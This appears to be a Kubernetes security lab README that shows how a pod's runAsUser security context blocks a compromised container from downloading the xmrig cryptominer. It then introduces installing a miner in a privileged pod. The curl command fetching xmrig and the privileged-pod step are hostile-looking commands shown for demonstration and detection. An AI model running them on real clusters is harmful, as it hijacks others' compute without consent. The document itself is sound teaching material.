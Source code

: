 Download a pod definition file:
```
wget https://k8s.io/examples/pods/security/security-context-2.yaml
```

Create the pod
```
kubectl apply -f security-context-2.yaml
```

Make sure the pod is running
```
kubectl get pods
```

Exec into a running pod (compromise the pod):
```
kubectl exec -ti security-context-demo-2 -- sh
```

In your shell, list the running processes:
```
ps aux
```
The output shows that the processes are running as user 2000. <br/>
This is the value of runAsUser specified for the Container. <br/>
It overrides the value 1000 that is specified for the Pod.<br/>
<br/>
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND <br/>
2000         1  0.0  0.0   4336   764 ?        Ss   20:36   0:00 /bin/sh -c node server.js <br/>
2000         8  0.1  0.5 772124 22604 ?        Sl   20:36   0:00 node server.js <br/>
... <br/>
<br/>

Try downloading the xmrig binary
```
curl -OL https://github.com/xmrig/xmrig/releases/download/v6.16.4/xmrig-6.16.4-linux-static-x64.tar.gz
```
The download should fail due to permissions. <br/>
<br/>
Exit your shell:
```
exit
```

Delete the pod
```
kubectl delete -f security-context-2.yaml
```


## Installing a cryptominer in an overly-permissive pod

```
wget https://raw.githubusercontent.com/n1g3ld0ugla5/Falco-Cryptomining-CNCF/main/priviliged-pod.yaml
```
